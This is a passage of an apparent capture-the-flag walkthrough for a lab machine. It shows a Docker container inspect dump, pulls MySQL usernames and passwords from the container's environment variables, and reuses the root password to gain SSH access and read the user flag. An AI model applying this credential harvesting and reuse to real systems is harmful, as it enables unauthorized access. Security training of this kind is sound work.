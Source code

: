 ```bash
t/app/scripts/init.d","Type":"bind"},{"Destination":"/var/lib/mysql","Driver":"local","Mode":"rw","Name":"app_vol_mysql","Propagation":"","RW":true,"Source":"/var/lib/docker/volumes/app_vol_mysql/_data","Type":"volume"}],"Name":"/mysql","NetworkSettings":{"Bridge":"","EndpointID":"","Gateway":"","GlobalIPv6Address":"","GlobalIPv6PrefixLen":0,"HairpinMode":false,"IPAddress":"","IPPrefixLen":0,"IPv6Gateway":"","LinkLocalIPv6Address":"","LinkLocalIPv6PrefixLen":0,"MacAddress":"","Networks":{"app_nw":{"Aliases":["mysql","73dcc3f09d02"],"DriverOpts":null,"EndpointID":"3488b6f0b46610eb4343c6c1eccf36c0ca931399608284cf732560ce6ced1718","Gateway":"172.18.0.1","GlobalIPv6Address":"","GlobalIPv6PrefixLen":0,"IPAMConfig":{"IPv4Address":"172.18.0.100"},"IPAddress":"172.18.0.100","IPPrefixLen":16,"IPv6Gateway":"","Links":null,"MacAddress":"02:42:ac:12:00:64","NetworkID":"5172d955f3b9f093b29ed421a64a7bd28d23d025434894c028510070d31ed950"}},"Ports":{"3306/tcp":null,"33060/tcp":null},"SandboxID":"85311ea4718ac2a9d89b1928bd95842f431e5a35ad6843d6b78f59a073e4f9bc","SandboxKey":"/var/run/docker/netns/85311ea4718a","SecondaryIPAddresses":null,"SecondaryIPv6Addresses":null},"Path":"docker-entrypoint.sh","Platform":"linux","ProcessLabel":"","ResolvConfPath":"/var/lib/docker/containers/73dcc3f09d02e3c72684d00720d127b3ec5a258e3b1e394fc83bfca48010ded0/resolv.conf","RestartCount":0,"State":{"Dead":false,"Error":"","ExitCode":0,"FinishedAt":"0001-01-01T00:00:00Z","Health":{"FailingStreak":0,"Log":[{"End":"2022-02-17T16:28:59.156853921+01:00","ExitCode":0,"Output":"mysqladmin: [Warning] Using a password on the command line interface can be insecure.\nmysqld is alive\n","Start":"2022-02-17T16:28:59.061738905+01:00"},{"End":"2022-02-17T16:29:04.275370696+01:00","ExitCode":0,"Output":"mysqladmin: [Warning] Using a password on the command line interface can be insecure.\nmysqld is alive\n","Start":"2022-02-17T16:29:04.159667456+01:00"},{"End":"2022-02-17T16:29:09.389113142+01:00","ExitCode":0,"Output":"mysqladmin: [Warning] Using a password on the command line interface can be insecure.\nmysqld is alive\n","Start":"2022-02-17T16:29:09.280519632+01:00"},{"End":"2022-02-17T16:29:14.516286641+01:00","ExitCode":0,"Output":"mysqladmin: [Warning] Using a password on the command line interface can be insecure.\nmysqld is alive\n","Start":"2022-02-17T16:29:14.392339402+01:00"},{"End":"2022-02-17T16:29:19.621478997+01:00","ExitCode":0,"Output":"mysqladmin: [Warning] Using a password on the command line interface can be insecure.\nmysqld is alive\n","Start":"2022-02-17T16:29:19.520196511+01:00"}],"Status":"healthy"},"OOMKilled":false,"Paused":false,"Pid":1110,"Restarting":false,"Running":true,"StartedAt":"2022-02-17T14:54:17.482770653Z","Status":"running"}},"status":200}
```

The data contains credentials in the container's environment variables: the MySQL username `drew` and passwords `drew` and `XeoNu86JTznxMCQuGHrGutF3Csq5`.

```json
...
  "Env": [
	"MYSQL_DATABASE=db",
	"MYSQL_USER=drew",
	"MYSQL_PASSWORD=drew",
	"MYSQL_ROOT_PASSWORD=XeoNu86JTznxMCQuGHrGutF3Csq5",
	"SERVICE_TAGS=dev",
	"SERVICE_NAME=mysql",
	"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
	"GOSU_VERSION=1.12",
	"MYSQL_MAJOR=8.0",
	"MYSQL_VERSION=8.0.25-1debian10"
  ],
...
```

Attempting the credential `drew`:`XeoNu86JTznxMCQuGHrGutF3Csq5` yields SSH access to `earlyaccess`. Grab the user flag from `/home/drew/user.txt`.
